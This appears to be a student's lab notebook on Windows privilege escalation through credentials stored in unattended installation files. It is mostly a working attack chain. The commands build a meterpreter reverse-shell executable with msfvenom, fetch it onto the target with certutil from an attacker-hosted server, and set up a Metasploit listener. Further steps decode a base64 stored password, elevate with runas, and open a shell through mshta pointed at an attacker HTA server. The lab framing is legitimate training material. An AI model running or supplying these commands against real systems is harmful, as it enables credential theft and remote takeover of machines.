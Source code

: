 #### Configuration Files
		- Unattended Windows Setup Utility is used to automate mass installation or deployment of windows
		- Tool utilizes specific configurations and user account credentials
		- Credentials kept by Unattended Windows Setup Utility can be found by a malicious user.

#### Unattended Windows Setup
	- Will utilize these coniguration files: 
		- C:\Windows\Panther\Unattended.xml
		- C:\Windows\Panther\Autounattneded
	-  Might be encoded by base64


#### Tools 
msfvenom


#### Commands

Generate Windows reverse shell
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=Local_IP LPORT=Local_Port -f exe > payload_name.exe
```

Create python server
	- On target system access local ip on port 80 
```
python -m SimpleHTTPServer 80
```

Download payload from local server
```
certutil -urlchache -f http://local_ip/payload_name.exe payload_name.exe
```

Set Payload in msfconsole to the one that was created
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LPORT
set LHOST
```

Search for unattended files or navigate manually
```
search -f Unattend.xml
```

Print out unattended file
```
cat unattended.xml
```


```
base64 -d password.txt
```

## Lab Unattended Installation

10.4.18.170

A Kali GUI machine and a Windows machine provided to you. 

Your task is to run [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) Powershell script to find a common Windows privilege escalation flaw that depends on misconfigurations.  The [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)post-exploitation framework has provided to you on the windows machine.

Objective: Gain access to meterpreter session with high privilege.

Instructions:

- You can check the IP address of the machine by running "ipconfig" command on the command prompt i.e cmd.exe
- Do not attack the gateway located at IP address 10.0.0.1


Look for misconfigurations on the windows systems using PowerUp.ps1
In a powershell terminal navigate to the PowerUp.ps1 file and execute it
Check output for unattended path
```
powershell -ep bypass
. .\PowerUp.ps1
Invoke-PrivescAudit
```

Search unattended.xml file for password
In this case the password has been encoded via base64
```
$password='<password>'
 $password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
echo $password
```

Open command prompt as admin with runas
```
runas.exe /user:administrator cmd
```

Switch over the Metasploitable Machine
```
msfconsole -q 
use exploit/windows/misc/hta_server
exploit
```

In the privileged command prompt execute the mshta executable along with the malicious link
```
mshta http://10.10.22.3:8080/9cIRizM1J.hta
```